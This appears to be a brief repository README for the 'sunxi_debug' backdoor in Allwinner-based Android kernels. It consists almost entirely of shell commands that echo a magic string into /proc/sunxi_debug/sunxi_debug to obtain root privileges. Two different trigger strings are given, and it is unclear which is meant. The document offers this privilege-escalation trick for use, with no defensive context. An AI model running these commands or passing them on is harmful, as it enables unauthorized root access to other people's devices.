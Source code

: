 # SUNXI BACKDOOR
Android sunxi_debug.c backdoor


# CALL THIS FUNCTION
```sh
echo "rootXdevice" > /proc/sunxi_debug/sunxi_debug
```

# CALL FUNCTION ON ALLWINNER DEVICES
```sh
echo "rootmydevice" > /proc/sunxi_debug/sunxi_debug
```
